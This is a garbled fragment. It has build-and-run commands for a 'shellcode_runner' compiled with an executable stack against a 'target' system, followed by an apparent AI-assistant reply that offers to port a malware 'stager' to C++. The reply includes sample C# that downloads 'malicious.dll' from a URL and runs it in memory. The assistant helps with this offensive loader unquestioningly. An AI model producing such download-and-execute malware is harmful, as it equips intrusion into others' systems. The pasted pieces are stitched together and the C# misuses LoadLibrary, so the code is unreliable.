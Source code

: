```c
```

#### 3. Compile and Run the C Program

Compile the C program using `gcc`:

```sh
gcc -o shellcode_runner shellcode_runner.c -z execstack
```

Run the compiled program on the target Linux or macOS system:

```sh
./shellcode_runner
```


Certainly! I'll help convert the core functionality of your `stager.cs` into a C++ equivalent. Since I don't have access to the contents of `stager.cs`, I'll make some assumptions about what the code does based on the name "stager." Typically, a "stager" script is used to download and execute additional payloads, often involving network communication, loading executables or DLLs, and executing shellcode.

If you can provide more specifics about what `stager.cs` does, I can tailor the conversion more precisely. For now, I'll assume the `stager.cs` file is doing something along these lines:

1. **Downloading a file (e.g., a DLL or EXE) from a URL.**
2. **Loading it into memory.**
3. **Executing it.**

### Sample `stager.cs` Pseudo-Functionality:
```csharp
using System.Net;
using System.Runtime.InteropServices;

public class Stager
{
    public static void Main(string[] args)
    {
        // Download the file
        WebClient client = new WebClient();
        byte[] fileData = client.DownloadData("https://example.com/malicious.dll");

        // Load the DLL into memory
        IntPtr hModule = LoadLibrary(fileData);

        // Optional: Find the entry point or invoke a method in the DLL
        IntPtr entryPoint = GetProcAddress(hModule, "EntryPoint");
        if (entryPoint != IntPtr.Zero)
        {
            // Execute the entry point
            ((Action)Marshal.GetDelegateForFunctionPointer(entryPoint, typeof(Action)))();
        }
    }

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern IntPtr LoadLibrary(byte[] lpFileName);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);
}
```
